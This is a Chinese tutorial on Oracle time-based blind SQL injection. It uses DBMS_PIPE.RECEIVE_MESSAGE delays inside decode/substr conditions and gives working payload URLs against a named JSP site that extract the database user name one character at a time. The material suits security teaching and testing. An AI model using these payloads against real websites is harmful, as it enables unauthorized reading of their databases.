


## 1、简介

**DBMS_LOCK.SLEEP()** 函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。首先，不能直接将该函数注入子查询中，因为Oracle不支持堆叠查询(stacked query)。其次，只有数据库管理员才能使用DBMS_LOCK包。在Oracle PL/SQL中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

```http
dbms_pipe.receive_message('RDS', 10)  
```

**DBMS_PIPE.RECEIVE_MESSAGE** 函数将为从RDS管道返回的数据等待10秒。默认情况下，允许以public权限执行该包。**DBMS_LOCK.SLEEP()** 与之相反，它是一个可以用在SQL语句中的函数。

## 2、注入技巧

延时注入属于盲注入的一种，适用的场景较多，基本上任何注入都可以使用这种注入方式进行测试

## **3、判断注入**

```http
http://www.jsporcle.com/news.jsp?id=-1 or 1= dbms_pipe.receive_message('RDS', 10)--
http://www.jsporcle.com/news.jsp?id=1 and 1=dbms_pipe.receive_message('RDS', 10)--
```

如果页面延时10秒返回，即存在注入。

## 4、延时注入

从上一节盲注入里 介绍了 两种布尔型盲注入方式，一种是decode盲注入，另外一种是逐字猜解法盲注入

这里可以使用decode盲注入

```http
and 1=(select decode(substr(user,1,1),'S',1,0) from dual) --
```

在decode注入里加入延时语句。

```http
and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual) --
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',5),0) from dual) --
```

 

**4、查询数据**

首先判断长度 6

```sql
(select decode(length(user),6,dbms_pipe.receive_message('RDS', 10)  ,0) from dual);
```

网站测试语句

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(length(user),6,dbms_pipe.receive_message('RDS',10),0) from dual)--
```

查询第一个字符

```sql
(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,2,1),'Y',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,3,1),'S',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,4,1),'T',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,5,1),'E',dbms_pipe.receive_message('RDS', 10),0) from dual) --
(select decode(substr(user,6,1),'N',dbms_pipe.receive_message('RDS', 10),0) from dual) --
```

网站测试

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual) --
```



